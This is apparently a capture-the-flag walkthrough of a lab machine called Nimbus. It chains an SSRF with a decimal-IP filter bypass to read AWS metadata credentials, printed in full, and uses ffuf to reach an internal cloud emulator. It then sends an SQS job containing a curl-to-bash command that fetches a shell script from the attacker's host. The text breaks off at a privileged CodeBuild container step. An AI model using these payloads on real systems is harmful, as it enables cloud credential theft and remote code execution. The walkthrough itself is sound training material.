





# Enumeration

## Scans

As usual we start off with an `nmap` port scan

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.16 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 eb:ab:8f:be:99:02:0b:3e:c4:1c:83:b2:66:2f:17:13 (ECDSA)
|_  256 c1:69:ab:84:f3:88:8b:b3:8a:ae:e2:28:35:54:35:0b (ED25519)
80/tcp open  http    nginx 1.24.0 (Ubuntu)
|_http-server-header: nginx/1.24.0 (Ubuntu)
|_http-title: Did not follow redirect to http://nimbus.htb/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```
{:filename="nmap.txt"}

We can note the following services listening on public facing ports:

<table id="bkmrk-port-table-22-openss"><thead><tr><th>Port</th><th>Table</th></tr></thead><tbody><tr><td>22</td><td>OpenSSH 9.6p1</td></tr><tr><td>80</td><td>Nginx 1.24.0</td></tr></tbody></table>

## 80 - Nginx 1.24.0

Also worth noting that the `Nginx http` server redirects us to `http://nimbus.htb` so I'll add an entry with the `ip` and the `FQDN` into my `/etc/hosts` file like so:

```hosts
10.129.245.218 nimbus.htb

```
{:filename="hosts"}

I'll conduct another scan of the port to see if `nmap` can find any additional information after the redirect.

```
80/tcp open  http    nginx 1.24.0 (Ubuntu)
|_http-server-header: nginx/1.24.0 (Ubuntu)
|_http-title: Nimbus \xE2\x80\x94 Internal Job Scheduler
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```
{:filename="port 80 script scan"}

We find a title with some `hex` characters and a short description: `Internal Job Scheduler`. Let's visit the site with a browser and see what we find. 


`Wappalyzer` doesn't reveal any additional information that we didn't already know.

**API Health Check**Clicking on the [healthcheck](http://nimbus.htb/api/v1/health) link we're greeted with a `json api response`

```json
{"services":{"queue":{"endpoint":"http://aws.nimbus.htb","status":"ok"},"scheduler":{"endpoint":"http://aws.nimbus.htb","status":"ok"},"storage":{"endpoint":"http://aws.nimbus.htb","status":"ok"}},"status":"healthy","version":"1.4.2"}

```
{:filename="AWS health dashboard"}

This reveals to us a `subdomain` of `aws`, let's add this to our `/etc/hosts` file like so:

```
10.129.245.218 nimbus.htb aws.nimbus.htb

```
{:filename="hosts"}

**DOCS**When attempting to visit the [docs](http://nimbus.htb/docs) we're greeted with a custom `404` page. 


**Job Submitter**Visiting the [job submitter](http://nimbus.htb/jobs) we are able to submit a job either through a `git` link 


Or through a `yaml` file.


We note the mention of `safe_load` which disables code execution for `pyyaml` deserialization.

**Login**When visiting the [login](http://nimbus.htb/login) page we find that login is currently disabled. 


**AWS**Visiting the `AWS` endpoint we're locked out as we don't have valid credentials.

```xml
<ErrorResponse xmlns="https://sts.amazonaws.com/doc/2011-06-15/">
  <Error>
    <Type>Sender</Type>
    <Code>InvalidClientTokenId</Code>
    <Message>The security token included in the request is invalid.</Message>
  </Error>
  <RequestId>p7518495-adc4-1191-49n2-4m70d8sdf922</RequestId>
</ErrorResponse>

```
{:filename="invalid credentials"}

## Vulnerability Assessment

**Job Submitter**I'll start off by hosting the following `test.yaml` file.

```yaml
name: w1ld
schedule: "* * * * *"
runtime: python3.11

```
{:filename="yaml job"}

This file is being served by a simple `python http server.

```bash
~/htb/nimbus $ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...

```
{:filename="http server for yaml job"}

I'll send a `POST` request to the `jobs` endpoint containing the `url` to the `test.yaml` file.

```http
POST /jobs/preview HTTP/1.1

Host: nimbus.htb

User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:140.0) Gecko/20100101 Firefox/140.0

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8

Accept-Language: en-US,en;q=0.5

Accept-Encoding: gzip, deflate, br

Content-Type: application/x-www-form-urlencoded

Content-Length: 39

Origin: http://nimbus.htb

Connection: keep-alive

Referer: http://nimbus.htb/jobs

Upgrade-Insecure-Requests: 1

Priority: u=0, i


url=http%3A%2F%2F10.10.14.3%2Ftest.yaml

```
{:filename="ssrf check"}

In the response we find a `parsed` version of the `yaml` file in `json` format.

```json
{'name': 'w1ld', 'schedule': '* * * * *', 'runtime': 'python3.11'}

```
{:filename="job parsed"}

I want to attempt to exploit an [SSRF to leak AWS credentials](https://www.resecurity.com/blog/article/ssrf-to-aws-metadata-exposure-how-attackers-steal-cloud-credentials) Let's try plugging in the url to itself using a miscallaneous parameter to satisfy the `yml` file check.

```http
POST /jobs/preview HTTP/1.1

Host: nimbus.htb

User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:140.0) Gecko/20100101 Firefox/140.0

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8

Accept-Language: en-US,en;q=0.5

Accept-Encoding: gzip, deflate, br

Content-Type: application/x-www-form-urlencoded

Content-Length: 37

Origin: http://nimbus.htb

Connection: keep-alive

Referer: http://nimbus.htb/jobs

Upgrade-Insecure-Requests: 1

Priority: u=0, i


url=http://169.254.169.254/?a=test.yml

```
{:filename="Internal URL check"}

We get the following error message.

```http
<div class="panel err"><strong>Error:</strong> Security policy: this URL targets an internal resource and has been blocked.</div>

```
{:filename="Internal URL Blocked"}

However, an `ip` is simply a `32-bit` number in `dotted decimal` notation, most filters only block out the standard `ipv4` and `ipv6` formats but we can format it however we like, I'll first attempt `hex`.

```http
POST /jobs/preview HTTP/1.1

Host: nimbus.htb

User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:140.0) Gecko/20100101 Firefox/140.0

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8

Accept-Language: en-US,en;q=0.5

Accept-Encoding: gzip, deflate, br

Content-Type: application/x-www-form-urlencoded

Content-Length: 59

Origin: http://nimbus.htb

Connection: keep-alive

Referer: http://nimbus.htb/jobs

Upgrade-Insecure-Requests: 1

Priority: u=0, i


url=http://0xA9FEA9FE/latest/meta-data/?a=test.yml

```
{:filename="Hex Format"}

I get the same error, we can try just `decimal` format as well.

```http
POST /jobs/preview HTTP/1.1

Host: nimbus.htb

User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:140.0) Gecko/20100101 Firefox/140.0

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8

Accept-Language: en-US,en;q=0.5

Accept-Encoding: gzip, deflate, br

Content-Type: application/x-www-form-urlencoded

Content-Length: 50

Origin: http://nimbus.htb

Connection: keep-alive

Referer: http://nimbus.htb/jobs

Upgrade-Insecure-Requests: 1

Priority: u=0, i


url=http://2852039166/latest/meta-data/?a=test.yml

```
{:filename="Decimal Format"}

**Response**

```
ami-id
hostname
iam/
instance-id
instance-type
local-hostname
local-ipv4
placement/
security-groups

```
{:filename="metadata"}

# User

## SSRF to AWS IMDS to AWS Credentials

We've confirmed the `SSRF` targeting the `AWS IMDS` the most inderesting endpoint would be the `iam` folder as it represents the `Identity and Access Management` role. Let's take a look.

```http
POST /jobs/preview HTTP/1.1

Host: nimbus.htb

User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:140.0) Gecko/20100101 Firefox/140.0

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8

Accept-Language: en-US,en;q=0.5

Accept-Encoding: gzip, deflate, br

Content-Type: application/x-www-form-urlencoded

Content-Length: 54

Origin: http://nimbus.htb

Connection: keep-alive

Referer: http://nimbus.htb/jobs

Upgrade-Insecure-Requests: 1

Priority: u=0, i


url=http://2852039166/latest/meta-data/iam/?a=test.yml

```
{:filename="iam metadata"}

**Response**

```
info
security-credentials/

```
{:filename="credentials directory"}

Let's first check `info`

```http
POST /jobs/preview HTTP/1.1

Host: nimbus.htb

User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:140.0) Gecko/20100101 Firefox/140.0

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8

Accept-Language: en-US,en;q=0.5

Accept-Encoding: gzip, deflate, br

Content-Type: application/x-www-form-urlencoded

Content-Length: 54

Origin: http://nimbus.htb

Connection: keep-alive

Referer: http://nimbus.htb/jobs

Upgrade-Insecure-Requests: 1

Priority: u=0, i


url=http://2852039166/latest/meta-data/iam/info?a=test.yml

```
{:filename="iam info query"}

**Response:**

```json
{
  "Code": "Success",
  "LastUpdated": "2025-01-15T12:34:56Z",
  "InstanceProfileArn": "arn:aws:iam::847219365028:instance-profile/nimbus-web-profile",
  "InstanceProfileId": "AIPAQX4PG7L2K9M3N5R8K"
}

```
{:filename="Info"}

Let's check the `security-credentials`

```http
POST /jobs/preview HTTP/1.1

Host: nimbus.htb

User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:140.0) Gecko/20100101 Firefox/140.0

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8

Accept-Language: en-US,en;q=0.5

Accept-Encoding: gzip, deflate, br

Content-Type: application/x-www-form-urlencoded

Content-Length: 75

Origin: http://nimbus.htb

Connection: keep-alive

Referer: http://nimbus.htb/jobs

Upgrade-Insecure-Requests: 1

Priority: u=0, i


url=http://2852039166/latest/meta-data/iam/security-credentials/?a=test.yml

```
{:filename="Credentials Request"}

**Response**

```
nimbus-web-role

```
{:filename="Credentials Response"}

Finally let's check the `nimbus-web-role` credential

```http
POST /jobs/preview HTTP/1.1

Host: nimbus.htb

User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:140.0) Gecko/20100101 Firefox/140.0

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8

Accept-Language: en-US,en;q=0.5

Accept-Encoding: gzip, deflate, br

Content-Type: application/x-www-form-urlencoded

Content-Length: 90

Origin: http://nimbus.htb

Connection: keep-alive

Referer: http://nimbus.htb/jobs

Upgrade-Insecure-Requests: 1

Priority: u=0, i


url=http://2852039166/latest/meta-data/iam/security-credentials/nimbus-web-role?a=test.yml

```
{:filename="Nimbus-Web-Role Request"}

**Response**

```json
{
  "Code": "Success",
  "LastUpdated": "2026-06-22T07:19:35Z",
  "Type": "AWS-HMAC",
  "AccessKeyId": "ASIAQX4PG7L2K9M3N5R8",
  "SecretAccessKey": "bXJ7K8mP/q2Hf+vN9wT4LcRe5Y1Aoz3DhU6gKjQs",
  "Token": "IQoJb3JpZ2luX2VjEHQaCXVzLWVhc3QtMSJGMEQCIBhV9zPmK3wQjL4nT8vR2xY7AoFqUk5HsP6BeMcW1aDgAiAR4tNoXzKp8VnJqL7mC3xY9FhWdQ5GBPmRkX2vT8jY6yqsAQiK//////////8BEAEaDDAwMDAwMDAwMDAwMCIMNZ5tQ7vEX2pKlHfqKtoBQwK5HmBcN4gXjVrUe1Pk9YsZ7DqWfThN3bMRoLYyJsKn8GpVxAcQ5VeWk2HiqXbF6CnXmM4PdYpL3rJzKqGtNvBfHcWyXa8jPzTn5LRMkV1QbWdAyKpGfHzNvU8TmEcL2qPdRhJsKgGn3VyXmFbBcNJ7QrHe5VpDxKfM",
  "Expiration": "2026-06-22T13:19:35Z"
}

```
{:filename="Nimbus-Web-Role Response"}

We can also find the `internal ip` of the `EC2` instance.

```http
POST /jobs/preview HTTP/1.1

Host: nimbus.htb

User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:140.0) Gecko/20100101 Firefox/140.0

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8

Accept-Language: en-US,en;q=0.5

Accept-Encoding: gzip, deflate, br

Content-Type: application/x-www-form-urlencoded

Content-Length: 62

Origin: http://nimbus.htb

Connection: keep-alive

Referer: http://nimbus.htb/jobs

Upgrade-Insecure-Requests: 1

Priority: u=0, i


url=http://2852039166/latest/meta-data/local-ipv4?a=test.yml


```
{:filename="ipv4 Request"}

**Response**

```
10.0.1.42

```
{:filename="ipv4 Response"}

## S3 Bucket Enumeration

I'll be using [awscli](https://docs.aws.amazon.com/cli/latest/userguide/cli-chap-welcome.html) with the following `~/.aws/credentials` file

```bash
~/htb/nimbus $ cat ~/.aws/credentials
[default]
aws_access_key_id=ASIAQX4PG7L2K9M3N5R8
aws_secret_access_key=bXJ7K8mP/q2Hf+vN9wT4LcRe5Y1Aoz3DhU6gKjQs
aws_session_token=IQoJb3JpZ2luX2VjEHQaCXVzLWVhc3QtMSJGMEQCIBhV9zPmK3wQjL4nT8vR2xY7AoFqUk5HsP6BeMcW1aDgAiAR4tNoXzKp8VnJqL7mC3xY9FhWdQ5GBPmRkX2vT8jY6yqsAQiK//////////8BEAEaDDAwMDAwMDAwMDAwMCIMNZ5tQ7vEX2pKlHfqKtoBQwK5HmBcN4gXjVrUe1Pk9YsZ7DqWfThN3bMRoLYyJsKn8GpVxAcQ5VeWk2HiqXbF6CnXmM4PdYpL3rJzKqGtNvBfHcWyXa8jPzTn5LRMkV1QbWdAyKpGfHzNvU8TmEcL2qPdRhJsKgGn3VyXmFbBcNJ7QrHe5VpDxKfM
region=us-east-1
output=json

```
{:filename="Credential File"}

Let's check the `role policies` for the `nimbus-web-role`

```bash
~/htb/nimbus $ aws --endpoint-url http://aws.nimbus.htb iam list-attached-role-policies --role-name nimbus-web-role

An error occurred (AccessDenied) when calling the ListAttachedRolePolicies operation: User: arn:aws:sts::847219365028:assumed-role/nimbus-web-role/i-0a1b2c3d4e5f6789a is not authorized to perform: iam:ListAttachedRolePolicies on resource: *

```
{:filename="No Permissions"}

Since we can't grab our role policies, let's try to enumerate the usual things.

```bash
# s3
~/htb/nimbus $ aws --endpoint-url http://aws.nimbus.htb s3 ls              

An error occurred (AccessDenied) when calling the ListBuckets operation: User: arn:aws:sts::847219365028:assumed-role/nimbus-web-role/i-0a1b2c3d4e5f6789a is not authorized to perform: s3:ListAllMyBuckets on resource: *

# sqs (likely accessible due to this being a job queue service)
~/htb/nimbus $ aws --endpoint-url http://aws.nimbus.htb sqs list-queues
{
    "QueueUrls": [
        "http://floci:4566/847219365028/nimbus-jobs"
    ]
}

# secretsmanager (not likely accessible but try it anyways)
~/htb/nimbus $ aws --endpoint-url http://aws.nimbus.htb secretsmanager list-secrets

An error occurred (403) when calling the ListSecrets operation: <ErrorResponse xmlns="https://sts.amazonaws.com/doc/2011-06-15/">
  <Error>
    <Type>Sender</Type>
    <Code>AccessDenied</Code>
    <Message>User: arn:aws:sts::847219365028:assumed-role/nimbus-web-role/i-0a1b2c3d4e5f6789a is not authorized to perform: secretsmanager:ListSecrets on resource: *</Message>
  </Error>
  <RequestId>x5660007-amv4-16e6-21r0-8b01j71af982</RequestId>
</ErrorResponse>

~/htb/nimbus $ aws --endpoint-url http://aws.nimbus.htb ssm describe-parameters


# SSM (another place to grab secrets, not likely accessible)
An error occurred (403) when calling the DescribeParameters operation: <ErrorResponse xmlns="https://sts.amazonaws.com/doc/2011-06-15/">
  <Error>
    <Type>Sender</Type>
    <Code>AccessDenied</Code>
    <Message>User: arn:aws:sts::847219365028:assumed-role/nimbus-web-role/i-0a1b2c3d4e5f6789a is not authorized to perform: ssm:DescribeParameters on resource: *</Message>
  </Error>
  <RequestId>x5660007-amv4-16e6-21r0-8b01j71af982</RequestId>
</ErrorResponse>

```
{:filename="AWS enumeration"}

So the only thing that returned a valid resposne was `SQS` which gave us a `QueueUrl` for `floci`, let's check the `job queue attributes`

```bash
~/htb/nimbus $ aws --endpoint-url http://aws.nimbus.htb sqs get-queue-attributes --queue-url http://floci:4566/847219365028/nimbus-jobs                      
{
    "Attributes": {
        "DelaySeconds": "0",
        "MessageRetentionPeriod": "345600",
        "MaximumMessageSize": "262144",
        "VisibilityTimeout": "30",
        "QueueArn": "arn:aws:sqs:us-east-1:847219365028:nimbus-jobs",
        "CreatedTimestamp": "1782108381",
        "LastModifiedTimestamp": "1782108381",
        "ApproximateNumberOfMessages": "0",
        "ApproximateNumberOfMessagesNotVisible": "0"
    }
}


```
{:filename="Get Jobs"}

Looking into [floci](https://floci.io/floci/) it seems to be a `local cloud emulator` the `getting started` page shows us it's ran with `docker`. So instead of interfacing with `floci` with the `IAM` credentials. Let's try to interface with it through the `SSRF`, I'll have `claude` help me generate a list of `decimal` ips to try from the usual `docker` ip range.

```bash
~/htb/nimbus $ python3 -c "for d in range(1, 255):
    print((172 << 24) + (17 << 16) + (0 << 8) + d)
    print((172 << 24) + (18 << 16) + (0 << 8) + d)" > payloads.txt

```
{:filename="Ip Generator"}

Next I'll save the following as `req.txt` so I can use it with `FFUF`

```http
POST /jobs/preview HTTP/1.1
Host: nimbus.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:140.0) Gecko/20100101 Firefox/140.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 77
Origin: http://nimbus.htb
Connection: keep-alive
Referer: http://nimbus.htb/jobs
Upgrade-Insecure-Requests: 1
Priority: u=0, i

url=http://FUZZ:4566/?a=test.yml


```
{:filename="IP Fuzzer"}

Let's run `FFUF` to check and see if we get a hit on any `internal docker ips` for `floci`

```bash
~/htb/nimbus $ ffuf -request req.txt -request-proto http -w ./payloads.txt -mc all -fs 1403

        / ___\  / ___\           / ___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : POST
 :: URL              : http://nimbus.htb/jobs/preview
 :: Wordlist         : FUZZ: /home/kali/htb/nimbus/payloads.txt
 :: Header           : Accept-Language: en-US,en;q=0.5
 :: Header           : Origin: http://nimbus.htb
 :: Header           : Connection: keep-alive
 :: Header           : Referer: http://nimbus.htb/jobs
 :: Header           : Upgrade-Insecure-Requests: 1
 :: Header           : Priority: u=0, i
 :: Header           : User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:140.0) Gecko/20100101 Firefox/140.0
 :: Header           : Accept-Encoding: gzip, deflate, br
 :: Header           : Content-Type: application/x-www-form-urlencoded
 :: Header           : Host: nimbus.htb
 :: Header           : Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
 :: Data             : url=http://FUZZ:4566/?a=test.yml

 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: all
 :: Filter           : Response size: 1403
________________________________________________

2886860802              [Status: 200, Size: 2409, Words: 167, Lines: 30, Duration: 368ms]

```
{:filename="Local Ip Found"}

We get a hit: `2886860802` which translates to: `172.18.0.2`, let's check it out.

```http
POST /jobs/preview HTTP/1.1

Host: nimbus.htb

User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:140.0) Gecko/20100101 Firefox/140.0

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8

Accept-Language: en-US,en;q=0.5

Accept-Encoding: gzip, deflate, br

Content-Type: application/x-www-form-urlencoded

Content-Length: 40

Origin: http://nimbus.htb

Connection: keep-alive

Referer: http://nimbus.htb/jobs

Upgrade-Insecure-Requests: 1

Priority: u=0, i


url=http://2886860802:4566/?a=test.yml


```
{:filename="local ip request"}

**Response**

```xml
<?xml version="1.0" encoding="UTF-8"?><ListAllMyBucketsResult xmlns="http://s3.amazonaws.com/doc/2006-03-01/"><Owner><ID>owner</ID><DisplayName>owner</DisplayName></Owner><Buckets><Bucket><Name>nimbus-dev-artifacts</Name><CreationDate>2026-06-22T06:06:22.557355427Z</CreationDate></Bucket></Buckets></ListAllMyBucketsResult>

```
{:filename="local ip response"}

We can find the bucket with a name of `nimbus-dev-artifacts`, let's check the contents.

```http
POST /jobs/preview HTTP/1.1

Host: nimbus.htb

User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:140.0) Gecko/20100101 Firefox/140.0

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8

Accept-Language: en-US,en;q=0.5

Accept-Encoding: gzip, deflate, br

Content-Type: application/x-www-form-urlencoded

Content-Length: 61

Origin: http://nimbus.htb

Connection: keep-alive

Referer: http://nimbus.htb/jobs

Upgrade-Insecure-Requests: 1

Priority: u=0, i


url=http://2886860802:4566/nimbus-dev-artifacts/?a=test.yml

```
{:filename="dev artifacts request"}

**Response**

```xml
<?xml version="1.0" encoding="UTF-8"?><ListBucketResult xmlns="http://s3.amazonaws.com/doc/2006-03-01/"><Name>nimbus-dev-artifacts</Name><Prefix></Prefix><MaxKeys>1000</MaxKeys><IsTruncated>false</IsTruncated><Contents><Key>source/worker.py</Key><LastModified>2026-06-22T06:06:23Z</LastModified><ETag>&quot;47109e759cbf87fd1c47d3a5097582ee&quot;</ETag><Size>1755</Size><StorageClass>STANDARD</StorageClass></Contents></ListBucketResult>

```
{:filename="dev artifacts response"}

We find a `source/worker.py` file, let's exfiltrate it.

```http
POST /jobs/preview HTTP/1.1

Host: nimbus.htb

User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:140.0) Gecko/20100101 Firefox/140.0

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8

Accept-Language: en-US,en;q=0.5

Accept-Encoding: gzip, deflate, br

Content-Type: application/x-www-form-urlencoded

Content-Length: 61

Origin: http://nimbus.htb

Connection: keep-alive

Referer: http://nimbus.htb/jobs

Upgrade-Insecure-Requests: 1

Priority: u=0, i


url=http://2886860802:4566/nimbus-dev-artifacts/source/worker.py?a=test.yml


```
{:filename="worker request"}

**Response**

```python
"""Nimbus job worker"""
import os, time, subprocess, boto3, yaml

ENDPOINT  = os.environ.get("AWS_ENDPOINT_URL", "http://aws.nimbus.htb")
QUEUE_URL = os.environ.get("QUEUE_URL", "http://aws.nimbus.htb/847219365028/nimbus-jobs")
REGION    = os.environ.get("AWS_DEFAULT_REGION", "us-east-1")
POLL_SECS = 5

print(f"[worker] starting; endpoint={ENDPOINT} queue={QUEUE_URL}", flush=True)
sqs = boto3.client("sqs", endpoint_url=ENDPOINT, region_name=REGION)

def handle_message(body):
    print(f"[worker] received message ({len(body)} bytes)", flush=True)
    job = yaml.load(body, Loader=yaml.Loader)
    if not isinstance(job, dict):
        print("[worker] message did not parse to a dict, skipping", flush=True)
        return
    name = job.get("name", "<unnamed>")
    script = job.get("script", "")
    print(f"[worker] running job '{name}'", flush=True)
    if script:
        result = subprocess.run(["python3", "-c", script],
            capture_output=True, text=True, timeout=30)
        print(f"[worker] stdout: {result.stdout}", flush=True)
        if result.stderr: print(f"[worker] stderr: {result.stderr}", flush=True)

def main():
    while True:
        try:
            resp = sqs.receive_message(QueueUrl=QUEUE_URL,
                MaxNumberOfMessages=1, WaitTimeSeconds=POLL_SECS)
            for m in resp.get("Messages", []):
                try: handle_message(m["Body"])
                except Exception as e: print(f"[worker] error: {e}", flush=True)
                finally:
                    sqs.delete_message(QueueUrl=QUEUE_URL, ReceiptHandle=m["ReceiptHandle"])
        except Exception as e:
            print(f"[worker] poll error: {e}", flush=True)
            time.sleep(POLL_SECS)

if __name__ == "__main__":
    main()

```
{:filename="worker.py"}

We find that the worker takes any `script` value from the `yaml` and runs it in a subprocess with: `python3 -c <script>`. We can exploit this to get `RCE` as the `Worker`, additionally we see no mention of the `safe_load` function so I'll assume there's another worker handling the `web input` that parses it safely. Instead I'll send a `message` directly to the `sqs` worker.

```bash
~/htb/nimbus $ aws --endpoint-url http://aws.nimbus.htb sqs send-message --queue-url http://aws.nimbus.htb/847219365028/nimbus-jobs --message-body "script: 'import os; os.system(\"curl http://10.10.14.3:3232/w1ld.sh|bash\")'" 
{
    "MD5OfMessageBody": "ee117a7d08d5bbac30cd12bdd3bd3753",
    "MessageId": "2880346c-1dad-4524-8eb0-564da163e4f8"
}

```
{:filename="sqs worker job"}

I get a callback on my listener.

```bash
worker@6b13d0a4b6d8:/app$ whoami
worker
worker@6b13d0a4b6d8:/app$ cd ~
worker@6b13d0a4b6d8:~$ ls
user.txt

```
{:filename="User.txt"}

There we can find the `user` flag.

# Root

## CodeBuild Root Container

Let's take a look at our `aws` identity

```bash
worker@6b13d0a4b6d8:/$ aws --endpoint-url http://172.18.0.2:4566 sts get-caller-identity
{
    "UserId": "847219365028",
    "Account": "847219365028",
    "Arn": "arn:aws:iam::847219365028:root"
}


```
{:filename="sts caller"}

Which means we have full reign over the `AWS` instance, probably the easiest way to get access to the host filesystem is through [CodeBuild](https://floci.io/floci/services/codebuild/#cli-examples)

Let's create a project using the `floci` image as we know it's available.

```bash
worker@6b13d0a4b6d8:/tmp$ aws --endpoint-url http://172.18.0.2:4566 codebuild create-project \
  --name nimbus-poc \
  --source '{"type":"NO_SOURCE"}' \
  --artifacts '{"type":"NO_ARTIFACTS"}' \
  --environment '{"type":"LINUX_CONTAINER","computeType":"BUILD_GENERAL1_SMALL","image":"floci/floci:latest","privilegedMode":true}' \
  --service-role arn:aws:iam::847219365028:role/root
{
    "project": {
        "name": "nimbus-poc",
        "arn": "arn:aws:codebuild:us-east-1:847219365028:project/nimbus-poc",
        "source": {
            "type": "NO_SOURCE"
        },
        "artifacts": {
            "type": "NO_ARTIFACTS"
        },
        "environment": {
            "type": "LINUX_CONTAINER",
            "image": "floci/floci:latest",
            "computeType": "BUILD_GENERAL1_SMALL",
            "privilegedMode": true
        },
        "serviceRole": "arn:aws:iam::847219365028:role/root",
        "timeoutInMinutes": 60,
        "queuedTimeoutInMinutes": 480,
        "created": "2026-06-22T10:50:43.668000+00:00",
        "lastModified": "2026-06-22T10:50:43.668000+00:00",
        "projectVisibility": "PRIVATE"
    }
}

```
{:filename="custom project"}

Let's now build the project with `buildspec override`

```bash
